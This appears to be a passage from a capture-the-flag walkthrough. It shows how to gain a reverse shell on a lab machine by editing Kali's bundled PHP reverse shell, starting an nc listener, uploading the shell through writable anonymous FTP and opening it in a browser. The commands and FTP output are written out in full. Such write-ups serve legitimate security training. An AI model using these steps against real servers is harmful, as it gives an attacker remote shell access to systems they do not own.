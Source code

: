 1) access directory: /usr/share/webshells/php/php-reverse-shell.php 
2) Open the file change ip address and save the file in the directory /home/kali/
3) open a listener in terminal:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234             
listening on [any] 1234 ...
```

4) Enter the ftp connection, and load the reverse shell:
```
ftp> put php-reverse-shell1.php 
local: php-reverse-shell1.php remote: php-reverse-shell1.php
229 Entering Extended Passive Mode (|||20262|)
553 Could not create file.
```

5) Then enter the ftp directory:
```
ftp> ls
229 Entering Extended Passive Mode (|||35304|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
```

6) Reload the file:
```
ftp> put php-reverse-shell1.php 
local: php-reverse-shell1.php remote: php-reverse-shell1.php
229 Entering Extended Passive Mode (|||9640|)
150 Ok to send data.
100% |***********************************************************************|  5493       13.82 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (50.70 KiB/s)
```
7) Enter firefox and put this url: http://10.10.63.53/files/ftp/
8) Open the file you uploaded and the listener will do the rest





